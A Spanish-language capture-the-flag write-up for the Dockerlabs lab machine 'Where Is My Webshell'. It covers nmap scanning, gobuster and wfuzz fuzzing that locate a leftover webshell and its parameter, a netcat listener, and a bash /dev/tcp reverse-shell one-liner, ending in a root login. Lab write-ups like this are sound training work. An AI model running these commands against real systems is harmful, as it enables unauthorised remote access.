

# Writeup de la Máquina Where Is My Webshell de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```


Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts, del fichero donde se ha guardado el escaneo de nmap. 

```bash
extractPorts allPorts
```


Teniendo el puerto copiado procedo a ejecutar un escaneo más profundo solo para el puerto 80 con nmap.

```bash
sudo nmap -p80 -sCV 172.17.0.2 -oN targeted
```


Al ver que tiene el puerto 80 decido mirar las tecnologías utilizadas en la web con whatweb.

```bash
whatweb http://172.17.0.2
```


Dado a que me saca pocas tecnologías decido abrir la página en el navegador.


Lo primero que se muestra es una página sencilla, si miramos al final de la página nos dejan una pista.




Viendo que no encuentro nada más decido hacer web fuzzing con gobuster, esta herramienta me reporta dos archivos interesantes, estos son shell.php y warning.html .

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2 -x html,php,txt,js
```


En la página warning.html dejan saber que la web ha sido atacada por otro hacker y que ha dejado una webshell pero que no recuerda el parámetro.


Para sacar el parametro utilizo la herramient wfuzz para conseguir el nombre del parámetro.

```bash
wfuzz -c --hl 0 --hc 404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://172.17.0.2/shell.php?FUZZ=id'
```


Ya con el parametro descubierto consigo una webshell operativa. 


Teniendo ya la webshell decido enviarme una reverse shell por el puerto 443.

```bash
sudo nc -nvlp 443
```


Para realizar la reverse shell se la paso urlencodeada.

```bash
bash -c 'bash -i >& /dev/tcp/192.168.13.130/443 0>&1'
```


Una vez dentro del servidor voy a la carpeta /tmp que según la pista de antes hay algo y este algo es la contraseña de root.


Una vez teniendo la contraseña cambio al usuario root y así se completaría la máquina.

```bash
su root
```

